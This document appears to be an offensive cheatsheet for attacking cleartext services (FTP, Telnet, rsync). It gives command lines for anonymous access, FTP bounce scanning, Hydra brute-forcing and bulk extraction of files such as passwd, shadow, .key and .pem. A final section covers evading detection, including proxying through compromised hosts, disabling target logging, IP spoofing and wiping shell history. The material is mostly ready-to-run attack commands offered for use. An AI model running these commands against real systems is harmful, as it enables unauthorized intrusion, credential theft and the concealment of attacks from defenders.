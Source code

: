 # Cleartext Protocols Cheatsheet

## FTP

### Service Discovery & Banner Grabbing
* Basic FTP connection: `ftp <target_ip>`
* Netcat banner grab: `echo "QUIT" \| nc <target_ip> 21`
* Nmap service detection: `nmap -sV -p 21 <target_ip>`
* Nmap with FTP-specific scripts: `nmap --script ftp-anon,ftp-bounce,ftp-brute,ftp-proftpd-backdoor,ftp-vsftpd-backdoor -p 21 <target_ip>`

### Anonymous Access
* Username: `anonymous`
* Password (if needed): `anonymous@example.com` (or any other existing or non-existing email address)

### FTP Bounce Scanning
* Use FTP server as proxy for port scanning: `nmap -b anonymous:anonymous@<ftp_server> <internal_target>`

### Data Exfiltration
* Bulk recursive download: `wget -r ftp://anonymous:anonymous@<target_ip>`
* Advanced FTP client: `lftp ftp://anonymous:anonymous@<target_ip>` → `mirror <remote_path> <local_path>`

## Telnet

### Service Discovery
* Basic Telnet connection: `telnet <target_ip> 23`
* Nmap service detection: `nmap -sV -p 23 <target_ip>`
* Nmap with Telnet-specific scripts: `nmap --script telnet-brute,telnet-encryption,telnet-ntlm-info -p 23 <target_ip>`

### Port Scanning
* Scan common Telnet ports: `nmap -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`
* Service detection on multiple ports: `nmap -sV -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`

### Hydra
* Hydra brute force: `hydra -L usernames.txt -P passwords.txt telnet://<target_ip> -vV -t4 -I`

### Initial Reconnaissance Commands

### Session Enumeration

| Command | Description |
|---------|-------------|
| `who` | Currently logged-in users |
| `w` | System users and their processes |
| `last` | Recent login/logout history |
| `users` | List of current usernames |
| `tty` | Current terminal name |
| `ps -t $(tty)` | Processes running on current terminal |

### Session Cleanup

| Command | Description |
|---------|-------------|
| `history -c` | Clear command history |
| `unset HISTFILE` | Disable history logging |
| `rm ~/.bash_history 2>/dev/null` | Remove history file |
| `unalias ls 2>/dev/null` | Remove command aliases |

## rsync

### Service Discovery
* Basic rsync service test and module listing: `rsync <target_ip>::`
* Explicit module listing: `rsync --list-only <target_ip>`
* Scan common rsync ports: `nmap -p 873,8873,9873 <target_ip>`
* Service detection: `nmap -sV -p 873 <target_ip>`

### Module Enumeration
* Detailed module information: `rsync -av --list-only <target_ip>::<module_name>`
* Test common modules
  ```bash
  for module in backup home www data etc opt var; do
    echo "Testing module: $module"
    rsync --list-only <target_ip>::$module 2>/dev/null
  done
  ```

### File Type Hunting
* Search for specific valuable file types: `rsync -avz --list-only <target_ip>::<module>/ \| grep -E '\.(conf\|cfg\|ini\|bak\|sql\|log)$'`

### Data Extraction
* Complete module mirror: `rsync -avz <target_ip>::<module>/ ./rsync_dump/`
* Selective file extraction: `rsync -avz --include="*.conf" --include="*.cfg" --exclude="*" <target_ip>::<module>/ ./configs/`
* Bandwidth-limited extraction: `rsync -avz --bwlimit=100 <target_ip>::<module>/ ./slow_dump/`

### High-Value File Extraction
```bash
rsync -avz --include="*passwd*" --include="*shadow*" --include="*config*" \
--include="*.conf" --include="*.cfg" --include="*.ini" \
--include="*.bak" --include="*.sql" --include="*.key" \
--include="*.pem" --exclude="*" <target_ip>::<module>/ ./intel/
```

### Write Access Testing
1. Create test file: `echo "rsync_test_$(date)" > test_file.txt`
2. Attempt upload: `rsync -avz test_file.txt <target_ip>::<module>`
3. Verify upload: `rsync --list-only <target_ip>::<module>/ \| grep test_file.txt`

## Detection Evasion & Operational Security

### Traffic Obfuscation

#### Timing & Bandwidth Controls
* Bandwidth limiting: `rsync -avz --bwlimit=50 --delay-updates <target>::<module>/ ./stealth_dump`
* Randomized connection intervals
  ```bash
  for i in {1..10}; do
    sleep $((RANDOM % 300 + 60))  # Random delay 1-6 minutes
    ftp -n <target> <<EOF
  user anonymous anonymous@$(date +%s)@fake.com
  ls
  quit
  EOF
  done
  ```
#### Connection Source obfuscation
* Use VPN endpoints to vary source IP addresses
* Proxy through compromised systems (if legally authorized)
* Distribute reconnaissance across multiple source addresses
* Time reconnaissance during high-traffic periods

### Log Evasion

#### FTP Log Evasion
* Use realistic email addresses for anonymous FTP (instead of anonymous@test.com use john.smith@companyname.com)
* Vary user agent strings if protocol supports them
* Mimic legitimate backup software or file transfer tools

#### General Log Evasion
```
+------------+---------------------------------------+------------------------------------------------+
| Protocol   | Common log entries                    | Minimization techniques                        |
+------------+---------------------------------------+------------------------------------------------+
| FTP        | - "USER <username>"                   | - Use FTPS (FTP over SSL/TLS)                  |
|            | - "PASS <password>"                   | - Use passive mode to avoid direct connections |
|            | - "230 Login successful"              | - Obfuscate credentials (e.g., encoded)        |
|            | - "550 Permission denied"             | - Limit connection frequency (throttle)        |
|            | - "STOR <filename> (file upload)"     | - Use non-standard ports                       |
+------------+---------------------------------------+------------------------------------------------+
| Telnet     | - "login: <username>"                 | - Replace with SSH (disables plaintext logs)   |
|            | - "password: <password>"              | - Use VPN tunneling to hide traffic            |
|            | - "Last login: <timestamp>"           | - Disable logging on target if possible        |
|            | - "Connection closed by foreign host" | - Use IP spoofing (risky)                      |
+------------+---------------------------------------+------------------------------------------------+
| rsync      | - "sent <X> bytes received <Y> bytes" | - Use SSH mode (`rsync -e ssh`)                |
|            | - "delta-transmission disabled"       | - Throttle speed (`--bwlimit`)                 |
|            | - "password file must not be other-"  | - Avoid `--password-file` (use SSH keys)       |
|            |   "readable" (auth failure)           | - Run over Tor/VPN                             |
|            | - "<file> sent/to-send"               | - Modify default port (`--port`)               |
+------------+---------------------------------------+------------------------------------------------+
```

#### Telnet Session Hygiene
* Clear command history before disconnect:
  ```bash
  history -c
  unset HISTFILE
  rm ~/.bash_history 2>/dev/null
  ```
* Avoid leaving obvious traces:
  ```bash
  unalias ls 2>/dev/null
  cd /
  ```

Reach out: https://guns.lol/january1073

